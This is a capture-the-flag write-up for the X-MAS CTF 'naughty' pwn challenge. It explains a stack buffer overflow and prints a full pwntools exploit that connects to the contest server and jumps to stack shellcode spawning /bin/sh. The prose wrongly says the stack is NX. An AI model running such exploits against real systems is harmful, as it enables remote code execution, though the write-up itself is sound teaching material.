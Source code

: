 ## XMAS CTF: naughty [pwn]
![](naughty_desc.png)

#### Standard buffer overflow which we can overwrite the return pointer, the catch is that we only have little control after taking program execution since we are only allowed a short amount of user input. 

#### We won't be able to perform a ropchain or get a leak, but we can execute shellcode since the stack is NX. My plan was to place the '/bin/sh' string and shellcode onto the stack then return to a gadget which jumps to the stack. Since I had no idea where the addresses where (but knew that stack offsets remained the same), I calculated the offset differences and made appropriate shellcode for it. The reason why I placed the /bin/sh string onto the stack earlier is because pushing values during the execution of our shellcode will affect the stack and fail to execute the next bytes of the shellcode. 

```python
from pwn import *

context.arch = 'amd64'
#p = process('./chall')
p = remote("challs.xmas.htsp.ro", 2000)
breakpoints = ['set disable-randomization off', 'break *0x4006b1']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))
print(p.recvuntil('XMAS\n'))

#: Exploit code here
jump_rsp = 0x000000000040067f

shellcode = asm('''

	xor rsi, rsi
	xor rdx, rdx
	xor rax, rax
	lea rdi, [rsp-8]
	mov al, 0x3b
	syscall
	''')

exploit = '/bin/sh\x00'
exploit += shellcode
exploit += '\xcc' * (46 - len(exploit))
exploit += p64(0xe4ff)
exploit += cyclic(2)
exploit += p64(jump_rsp)

#: sub rsp, 0x38
#: jmp rsp
exploit += "\x48\x83\xEC\x38\xFF\xE4" #: jmp to shellcode

p.sendline(exploit)
p.interactive()
```
![](naughty_shell.png)
